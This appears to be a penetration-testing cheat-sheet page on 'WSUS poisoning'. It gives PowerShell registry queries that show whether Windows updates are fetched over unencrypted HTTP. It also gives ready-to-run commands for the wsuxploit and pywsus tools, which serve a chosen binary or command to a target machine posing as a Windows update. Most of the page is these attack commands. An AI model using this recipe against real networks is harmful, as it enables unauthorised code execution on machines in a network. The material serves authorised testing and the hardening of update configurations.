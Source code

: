 # WSUS Poison

## Brief

You can compromise the system if the updates are not requested using **httpS** but **http**.

```powershell
# Check if the network uses a non-SSL WSUS update by running the following :
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
# If you get a reply such as:
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
      WUServer    REG_SZ    http://xxxx-updxx.corp.internal.com:8535
	  
# and if this returns 1 :
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
# this is exploitable. If the last registry is equals to 0, then, the WSUS entry will be ignored.
```

### Exploit

#### WSUXPloit

{% embed url="https://github.com/pimps/wsuxploit" %}

```bash
git clone https://github.com/pimps/wsuxploit.git
sudo apt-get install samba dsniff iptables python
pip install twisted
cd wsuxploit/
git clone https://github.com/ctxis/wsuspect-proxy.git
./wsuxploit.sh $TARGET_IP $WSUS_IP $WSUS_PORT $BINARY_PATH
```

#### PYWSUS

{% embed url="https://github.com/GoSecure/pywsus" %}

```bash
git clone https://github.com/GoSecure/pywsus.git
cd pywsus/
pip install -r requirements.txt
python pywsus.py -H $HOST -c $COMMAND -e $EXECUTABLE
```
